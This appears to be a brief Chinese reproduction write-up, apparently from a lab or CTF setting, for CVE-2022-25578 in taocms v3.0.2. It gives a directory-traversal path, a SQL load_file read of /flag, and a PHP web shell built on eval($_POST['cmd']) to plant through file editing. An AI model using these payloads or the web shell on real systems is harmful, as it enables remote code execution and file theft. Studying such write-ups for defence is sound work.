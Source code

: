 # CVE-2022-25578漏洞复现
taocms v3.0.2允许攻击者通过编辑.htaccess文件执行任意代码
该版本下存在三个漏洞，
第一个是直接在文件管理下进行目录翻越../../../
第二个是在sql命令处输入```select load_file('/flag')```
第三个是更改php文件，使其包含shell：
```php
<?php
	echo "hello shell";
	eval($_POST['cmd']);
 ?>
```

进入到该php文件，直接shell连接
